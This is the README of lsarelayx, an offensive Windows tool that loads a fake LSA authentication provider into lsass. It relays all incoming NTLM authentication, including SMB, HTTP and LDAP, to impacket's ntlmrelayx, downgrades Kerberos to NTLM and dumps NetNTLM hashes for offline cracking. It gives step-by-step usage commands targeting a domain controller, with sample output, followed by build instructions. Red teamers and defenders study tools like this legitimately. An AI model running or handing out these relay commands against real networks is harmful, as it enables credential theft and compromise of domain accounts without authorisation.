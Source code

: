 # lsarelayx

## Introduction

lsarelayx is system wide NTLM relay tool designed to relay incoming NTLM based authentication to the host it is running on.  lsarelayx will relay **any** incoming authentication request which includes SMB.  Since lsarelayx hooks into existing application authentication flows, the tool will also attempt to service the original authentication request after the relay is complete.  This will prevent the target application/protocol from displaying errors and function as normal for end users authenticating against the lsarelayx host.

### **Features**

* Relays NTLM connections system wide, including SMB, HTTP/HTTPS, LDAP/LDAPS or any other third party application implementing the Windows authentication APIs.
* Where possible, downgrades incoming Kerberos authentication requests to NTLM.  This will cause clients that would traditionally attempt Kerberos authentication to fallback to NTLM.
* Performs an LDAP query for the relayed user to fetch group membership info an create the correct authentication token for the original request.
* Dumps NetNTLM messages for offline cracking.
* Supports a passive mode that does not relay and only dumps captured NetNTLM hashes (no Kerberos downgrade in this mode).

## How it works

lsarelayx comes in three parts.  A fake LSA authentication provider implemented within liblsarelay.dll, a user mode console application as the control interface and a new ntlmrelayx server module called RAW.

### liblsarelayx.dll

liblsarelayx.dll is the LSA authentication provider that gets loaded by lsarelayx.  It's predominant purpose is to hook the NTLM and Negotiate packages to facilitating redirecting authentication requests to lsarelayx over a local named pipe for relaying and dumping NetNTLM hashes.  liblsarelayx is designed to be as simple as possible where all the heavy lifting is performed by lsarelayx

### lsarelayx.exe

lsarelayx.exe is the main console application used to load the custom LSA authentication provider (liblsarelayx.dll), listen for incoming NTLM and Negotiate tokens from the authentication provider and relay to ntlmrelayx's RAW server module.  The tool also performs the LDAP queries used for capturing group information for relayed users and passing back to the LSA authentication provider.

### RAW ntlmrelayx module

impacket's ntlmrelayx has implemented a significant amount of work creating relay attacks and will continue to improve and add further attack in the future.  To take advantage of this in favour of reimplementing attacks directly within lsarelayx, a new ntlmrelayx server module was created called RAW. The RAW server module is protocol agnostic and is designed to accept the raw NTLM messages directly from 3rd party software like lsarelayx.

## Usage

### Active Mode

First start the ntmlrelayx RAW server module to listen for RAW NTLM messages passed from lsarelayx.

```
python examples\ntlmrelayx.py -smb2support --no-wcf-server --no-smb-server --no-http-server "-t" smb://dc.victim.lan

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

lsarelayx itself requires local administrator permissions to run.  To run in active relay mode, the host address where ntlmrelayx is running the raw server module needs to be specified.  The default port is 6666.  This can be overridden with the `--port` argument, but be sure to have also overridden the port on the ntlmrelayx side too using the `--raw-port` argument.

```
lsarelayx.exe --host 192.168.1.1
[+] Using 192.168.1.1:6666 for relaying NTLM connections
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Passive Mode

You can also run lsarelayx in passive mode by running without any arguments

```
lsarelayx.exe
[=] No host supplied, switching to passive mode
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Caveats

Once the liblsarelayx DLL has been loaded into lsass, currently you cannot unload it due to limitations of how LSA plugins work.  The client can be closed which will put the DLL into a dormant state until the client starts again but the DLL will be in use until a reboot occurs.

Since the LSA plugin is not actually a genuine plugin, there are plans to implement a reflective loader inside the plugin which can then be stopped and started at will but that’s an exercise for another day.

Development was performed on Windows 10 and Server 2016.  A quick test was performed on Windows Server 2012 R2 which worked, but the calculation of offsets for hooking can fail on 2012 (this can be provided manually using the `lookuppackage-hint=`, get it wrong and Windows will reboot).  No testing has been performed on anything below Windows 10 on the desktop side and nothing tested on Server 2019 at all.

## !!WARNING!!

liblsarelayx.dll will be loaded inside the critical lsass.exe process.  If liblsarelayx.dll has any bugs that lead to crashing lsass.exe, the host **WILL** reboot after 60s.  Whilst best efforts have been made to write bug free code, I can't promise anything.  Don't come crying to me that you took your fortune 500 client down for crashing the busy file server after using lsarelayx.

## Building

### Docker

If you have docker installed, this is the quickest option. It utilises the `ccob/windows_cross` image with all the build dependencies pre-installed.

#### Docker on Windows (Powershell)

```shell
docker run --rm -it -v $env:pwd\:/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; --build . --target install/strip"
```

#### Docker on Linux

```shell
docker run --rm -it -v $(pwd):/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; cmake --build . --target install/strip"
```

### Linux

On Linux we utilise a CMake toolchain along with the MinGW compiler.  These need to be installed before hand.  For the managed component, please make sure the dotnet command line tool is also installed from .NET core

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..
cmake --build . --target install/strip
```

### Windows (Powershell)

Windows will require a full CMake, MinGW and Visual Studio setup before even attempting to build, it's the most painful way to build if you don't have a development environment installed 

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -G "MinGW Makefiles" ..
cmake --build . --target install/strip
```
